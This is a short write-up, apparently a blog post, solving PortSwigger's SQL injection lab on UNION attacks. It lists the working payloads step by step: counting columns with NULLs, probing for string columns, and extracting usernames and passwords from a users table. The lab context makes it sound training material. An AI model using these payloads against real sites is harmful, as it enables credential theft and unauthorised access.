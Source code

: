 ```yaml
---
title: 🕸️ PSA - SQLi 5 - UNION attack, retrieving data from other tables
date: 2023-03-06
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users` with columns `username` and `password` inside.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test if both contain string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT 'abc','abc'--   # works
````

We are now sure both columns contain string. We can try to extract the data in users table:

````text
<website>/filter?category=Pets' UNION SELECT username, password FROM users--
````

The usernames and passwords are displayed.
